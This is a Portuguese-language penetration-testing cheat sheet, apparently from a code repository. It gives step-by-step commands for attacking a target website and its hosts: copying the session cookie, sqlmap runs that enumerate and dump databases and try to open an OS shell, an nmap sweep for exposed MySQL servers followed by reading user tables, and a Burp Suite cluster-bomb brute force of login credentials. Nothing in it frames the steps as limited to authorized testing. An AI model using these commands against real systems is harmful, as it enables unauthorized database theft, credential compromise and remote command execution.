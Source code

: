 Acessar o site alvo
Abra o Firefox e navegue até o site que deseja testar
Dev tools-\&gt;Console: document.cookie
Enumerar bancos de dados
sqlmap -u "http://www.site.aspx?id=1" --cookie="valor_copiado" --dbs
Selecionar um banco de dados e enumerar tabelas
sqlmap -u "http://www.site.aspx?id=1" --cookie="valor_copiado" -D nome_do_banco --tables
Selecionar uma tabela e extrair dados
sqlmap -u "http://www.site.aspx?id=1" --cookie="valor_copiado" -D nome_do_banco -T nome_da_tabela --dump
Tentar obter acesso ao shell do sistema operacional
sqlmap -u "http://www.site.aspx?id=1" --cookie="valor_copiado" --os-shell
Se o shell for obtido, executar comandos (exemplo):
TASKLIST
Use systeminfo para windows para obter todas as versões do sistema operacional
Use uname -a para linux para obter a versão do sistema operacional

##MYSQL
nmap -p 3306 -sV -iL ip.txt | grep open
Este comando escaneia a porta 3306 em todos os hosts listados em ip.txt, detecta a versão do serviço (-sV) e filtra apenas as portas abertas.

Conectar ao banco de dados MySQL:
mysql -u usuario -h <IP> -p

Explorar bancos de dados:
SHOW DATABASES;
USE <banco>;
SHOW TABLES;
SELECT * FROM users;

##BURP SUITE
Brute-force

Configuração inicial:
Configure o proxy do navegador para 127.0.0.1:8080
Inicie o Burp Suite e certifique-se de que o Intercept está ativado
Captura da requisição:
Acesse a página de login do alvo
Insira credenciais aleatórias e envie o formulário
No Burp Suite, localize a requisição de login
Clique com o botão direito na requisição e selecione "Send to Intruder"
Configuração do Intruder:
Vá para a aba "Intruder"
Na sub-aba "Positions":
Clique em "Clear §" para remover marcações existentes
Selecione "Cluster bomb" como tipo de ataque
Marque os campos de usuário e senha com "Add §"
Configuração de payloads:
Na sub-aba "Payloads":
Para "Payload set 1", carregue a lista de usuários
Para "Payload set 2", carregue a lista de senhas
Execução do ataque:
Clique em "Start attack"
Aguarde a conclusão do ataque
Análise dos resultados:
Filtre os resultados por "Status" igual a 302 (redirecionamento bem-sucedido)
Para respostas suspeitas, clique duas vezes para ver os detalhes
Verifique o conteúdo da resposta para confirmar o login bem-sucedido

